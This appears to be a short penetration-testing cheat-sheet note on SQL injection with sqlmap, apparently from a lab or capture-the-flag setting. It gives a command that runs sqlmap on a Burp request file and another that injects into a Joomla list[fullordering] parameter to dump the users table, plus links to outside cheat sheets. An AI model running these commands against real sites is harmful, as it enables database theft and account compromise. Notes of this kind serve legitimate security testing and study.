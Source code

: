 ##### SQL injection against a Web site.  Copy Burp intercept to file and pass file to sqlmap.
```bash
sqlmap -r interceptfilename -p username
```

##### Joomla
```bash
sqlmap -u "http://10.10.201.23/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump -batch -p list[fullordering]
```

# Cheatsheets
[Security Sleuth SQLMAP Cheat Sheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet)

[Invicti SQL Injection Cheat Sheet](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)